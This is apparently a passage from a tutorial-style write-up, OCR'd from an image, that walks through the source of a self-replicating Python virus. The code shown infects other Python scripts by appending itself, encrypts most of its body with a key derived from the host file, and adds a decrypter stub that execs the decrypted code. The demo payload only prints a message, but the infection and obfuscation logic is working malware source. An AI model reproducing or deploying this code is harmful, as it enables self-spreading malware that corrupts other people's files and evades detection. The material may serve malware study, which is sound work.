 ```python
            script = open(file, "r+")
            text_script = script.read()
            if "def calculate_key" not in text_script:
                plain_part = virus[:517]
                part_to_encrypt = virus[517:]
                key = calculate_key(text_script)
                encrypted_part = encrypt(part_to_encrypt, key)
                script.write(plain_part)
                decrypter = "import sys" + chr(10) + "host = open(sys.argv[0], " + chr(34) + "r" + chr(34) + ")" + chr(10) + "host_text = host.read()" + chr(10) + "host.close()" + chr(10) + "plain_part = host_text[host_text.find(" + chr(34) + "def calculate_key" + chr(34) + "):host_text.find(" + chr(34) + "def calculate_key" + chr(34) + ")+517]" + chr(10) + "key = calculate_key(host_text)" + chr(10) + "decrypted_text = decrypt(" + chr(34) + chr(34) + chr(34) + encrypted_part + chr(34) + chr(34) + chr(34) + ", key)" + chr(10) + "exec(decrypted_text)" + chr(10) + "run(plain_part + decrypted_text)"
                script.write(decrypter)
            script.close()
```

- **decrypter** variable code: this is the code used to decrypt the encrypted contents of the virus after the first 
  infection.
```python
import sys
host = open(sys.argv[0], "r")
host_text = host.read()
host.close()
plain_part = host_text[host_text.find("def calculate_key"):host_text.find("def calculate_key")+517]
key = calculate_key(host_text)
decrypted_text = decrypt("""
wxy xgvkrim(mxqm, dxr):
    xgvkrimxw_mxqm = ""
    yhk vatktvmxk bg mxqm:

***

wxy kng(obknl):
    bgyxvm(obknl)
    itrehtw()""", key)
exec(decrypted_text)
run(plain_part + decrypted_text)
```

- **payload** function: this function would contain the malicious code. In this case, only the message "You were 
  infected" is printed on the screen.
```python
def payload():
    print("You were infected")
```

- **run** function: this function calls the infect and payload functions.
```python
def run(virus):
    infect(virus)
    payload()
```
